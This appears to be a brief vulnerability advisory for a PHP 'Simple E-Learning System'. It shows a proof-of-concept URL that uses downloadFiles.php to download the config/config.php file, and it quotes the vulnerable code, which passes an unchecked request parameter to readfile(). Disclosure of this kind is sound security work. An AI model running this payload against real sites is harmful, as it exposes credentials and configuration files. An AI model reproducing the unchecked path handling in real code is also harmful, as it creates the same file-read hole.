

# Simple E-Learning System downloadFiles.php Arbitrary File Download

Vendor Homepage:

https://www.sourcecodester.com


# Source Code Download：

[https://www.sourcecodester.com/php-simple-e-learning-system-source-code](https://www.sourcecodester.com/php-simple-e-learning-system-source-code)


# Payload

```html
http://127.0.0.1/downloadFiles.php?download=config/config.php
```





# Code

`downloadFiles.php` line 4-13

```php
if(isset($_GET['download'])){
    $path =$_GET['download'];
    
    
    header('content-Disposition: attachment; filename = '.$path.'');
    header('content-Type:application/octet-stream');
    header('content-Length='.filesize($path));
    readfile($path);
    exit;
}
```

